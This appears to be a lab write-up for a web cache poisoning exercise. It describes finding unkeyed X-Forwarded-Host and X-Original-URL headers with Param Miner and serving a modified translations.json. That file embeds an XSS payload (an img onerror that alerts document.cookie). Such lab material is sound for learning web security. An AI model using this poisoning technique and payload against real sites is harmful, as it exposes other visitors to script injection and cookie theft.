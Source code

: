 This labs needs combining two vulnerabilities togheter where we actually have to poison the cache on two places.

I've started `Param Miner` on `/` and `/?localized=1` (actually on other endpoits well, but the ones mentioned are relevant!)

- `/` returned `X-Forwarded-Host` and `X-original-url`
- `/localised=1` returned `X-original-url`

In order to even find the endpoints/paths i simply browsed the page.

We now know where the potential Web Cache Vulnerability might be. 

![picture 4](/assets/images/44e9214a96c696e8574ca5347aae4e5995de5c1f303531fbf1e951fd8727feaf.png)  

We can notice that host is being reflected being sent into following script

```js
<script>
  initTranslations('//' + data.host + '/resources/json/translations.json');
</script>
```

File `translations.json` looks like this (it was already modified by me, only the `español`)

```
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "its just on the product page :(",
            "View details": "</a><img src=1 onerror='alert(document.cookie)' />",
            "Description:": "Descripción:"
        }
    },
    "cn": {
        "name": "中文",
        "translations": {
            "Return to list": "返回清單",
            "View details": "查看詳情",
            "Description:": "描述:"
        }
    },
    "ar": {
        "name": "عربى",
        "translations": {
            "Return to list": "العودة إلى القائمة",
            "View details": "عرض التفاصيل",
            "Description:": "وصف:"
        }
    },
```